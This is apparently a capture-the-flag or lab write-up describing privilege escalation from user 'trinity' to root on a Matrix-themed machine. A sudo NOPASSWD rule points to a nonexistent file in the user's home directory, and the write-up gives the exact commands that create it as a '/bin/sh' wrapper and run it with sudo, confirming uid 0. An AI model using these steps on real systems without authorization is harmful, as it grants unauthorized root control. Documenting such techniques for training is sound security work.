


# Privilege Escalation: Trinity to Root

## 1. Enumerating Sudo Permissions

After gaining access as Trinity, sudo privileges were enumerated:

```bash
sudo -l
```

The output revealed:

```text
User trinity may run the following commands on matrix:
    (root) NOPASSWD: /home/trinity/oracle
```

This indicated that Trinity could execute `/home/trinity/oracle` as root without a password.

## 2. Exploiting the Sudo Misconfiguration

Further inspection revealed that the specified `oracle` file did not exist.

Since Trinity owned its home directory, a file could be created at the permitted path.

The following command created a shell script:

```bash
echo "/bin/sh" > oracle
```

Execute permission was granted:

```bash
chmod 755 oracle
```

## 3. Obtaining Root Access

The script was executed using the permitted sudo rule:

```bash
sudo ./oracle
```

This launched `/bin/sh` with root privileges.

To verify the successful privilege escalation:

```bash
id
```

Output:

```text
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

The UID of `0` confirmed successful root access.

## Result

Root access was successfully obtained by exploiting a sudo misconfiguration that allowed Trinity to execute a user-controlled file as root.

## Screenshots

